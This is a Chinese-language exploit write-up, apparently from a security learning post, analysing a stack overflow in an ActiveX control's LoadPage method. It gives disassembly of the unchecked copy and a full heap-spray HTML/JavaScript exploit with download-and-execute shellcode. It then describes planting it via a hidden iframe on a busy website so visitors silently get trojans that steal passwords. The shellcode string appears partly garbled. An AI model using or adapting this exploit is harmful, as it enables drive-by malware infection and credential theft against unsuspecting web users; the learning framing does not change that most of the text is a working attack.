我们 `f7` 跟进去, 这个 `call` 函数开头部分代码如下

```
030C3DC0  /$  81EC 0C010000  sub     esp, 10C      //分配 0x10c 字节空间.
030C3DC6  |.  8BD1          mov     edx, ecx
030C3DC8  |.  83C9 FF       or      ecx, FFFFFFFF
030C3DCB  |.  33C0          xor     eax, eax
030C3DCD  |.  53            push    ebx
030C3DCE  |.  56            push    esi
030C3DCF  |.  57            push    edi
030C3DD0  |.  8BBC24 200100>mov     edi, [esp+120]
030C3DD7  |.  F2:AE         repne   scas byte ptr es:[edi]
030C3DD9  |.  F7D1          not     ecx
030C3DDB  |.  2BF9          sub     edi, ecx
030C3DDD  |.  8D5C24 18     lea     ebx, [esp+18]
030C3DE1  |.  8BC1          mov     eax, ecx
030C3DE3  |.  8BF7          mov     esi, edi
030C3DE5  |.  8BFB          mov     edi, ebx
030C3DE7  |.  C1E9 02       shr     ecx, 2
030C3DEA  |.  F3:A5         rep     movs dword ptr es:[edi], d>;  溢出
```

当执行到 `030c3dea` 时



串长度没经过严格检查 就进行复制操作, 这里将复制 `0x500` 字节的串, 返回地址当然会被覆盖了。

现在已经很明显了 只要我们构造的串的长度超过 `0x10c` 就一定会把 这个 `call` 的返回地址覆盖。

产生漏洞的原因弄清楚了我们就可以写 `exploit` 了。

`Exploit` 要考虑以下 2 个问题

1. `shellcode` 必须以 `unicode` 形式传入
2. 用什么方式来执行我们的 `shellcode`.

首先 `unicode` 格式的 `shellcode`, 我借用的 `dummy` 的下载并执行的 `shellcode`

.(地址为: `http://bbs.pediy.com/showthread.php?t=54812&viewgoodnees=1`)

一般利用覆盖返回地址跳转到 `shellcode` 的方式 由于跳转指令地址会因操作系统不同 会出现不通用的情况。

这里我也选用的是 `axtivex` 漏洞利用的常见的 `heap spray` 的方法..

这种方法我觉得亮点就是只要覆盖了返回地址就能执行到 `shellcode` 很棒。

完整的 `exploit ok.htm` 代码入下:

```html
<htm>
<object id="target" classid="clsid:7F5E27CE-4A5C-11D3-9232-0000B48A05B2"></object>
<body>
<SCRIPT language="javascript">
var argCount=4;
var shellcode=unescape("%u00E8 樀縡顳諾踎๎嗬䱒位 N㘀⼚捰尺⹣硥 e 彙枯ꅤ0䂋謌ᱰ训ࡨ譑㱵璋砮譖⁶줳䅉έ㏅࿛Ⴞࡴ쯁̍䃚Ἳ譞⑞�警䬌庋̜话謄씃妫볢ྋ呂瑣圊탿꾕檯劬坒辍მ@၎@剑탿Ūｗ埿部瑨灴⼺戯甮湥挮⽮⹡硥 e");  //shellcode 中间没换行.
</script><script language="javascript">
fillblock = unescape("邐");
while ( fillblock.length < 0x30000 ) fillblock += fillblock;
memory = new Array();
for ( x = 0; x < 400; x++ ) memory[x] = fillblock + shellcode;
var arg1='\\x0a\\x0a\\x0a\\x0a';
while(arg1.length<0x1040)arg1+='\\x0a\\x0a\\x0a\\x0a';  //这里用确保足够长的串把返回地址覆盖.
var arg2=1;
var arg3=1;
var arg4=1;
target.LoadPage(arg1,arg2,arg3,arg4);
</script>
</body>
</htm>
```

# 危害及攻击场景描述

该类型漏洞一般用来网站挂马。

比如在某网页里查入如下代码:

```
<iframe src="http://www.xxx.com/ok.htm" width=0 height=0 scrolling=no></iframe>
```

当用户浏览网页时, 就会背后不知不觉的打开 `ok.htm`, `ok.htm` 就是我们的 `exploit` 打开后会下载运行木马程序, 这样用户电脑就在不知觉时中木马了。

该类型漏洞危害很广, 很多木马后门都是以这中形式 被安装到用户电脑里的。木马可以盗去密码帐户等, 危害严重。

试想某一流量大的网站 被挂马后, 中马用户将非常的多。

# 稳定性与通用性论证

该 `exploit` 没有使用跳转指令地址覆盖 `eip` 的方式, 这样完全避免了因操作系统版本出现的不通用的问题。只要我们的恶意串足够长, 能把返回地址覆盖, 那么我们 `shellcode` 就一定能被执行。这也是 `heap spray` 方式的一个好处。

# 关于 heep spray

"一般情况下 `05050505` 这个地址 指的内存无效的

但如果我们在内存里分配足够多的空间 并且这个空间经过地址 `05050505` 还向先延伸 而分配的空间的内容 `05050505` 地址前 全部都是 `nop` 指令 其后面 往下就是 `shellcode`

那么只要 `05050505` 地址覆盖了返回地址

就可以执行 `shellcode` 了

这对 `activex` 漏洞有效

"

我是这么理解的

以上均为个人在学习过程中的理解, 如有任何疏漏或错误 请批评指正, 谢谢!

4dd466d0e1e0cc123afbe504da2462ca
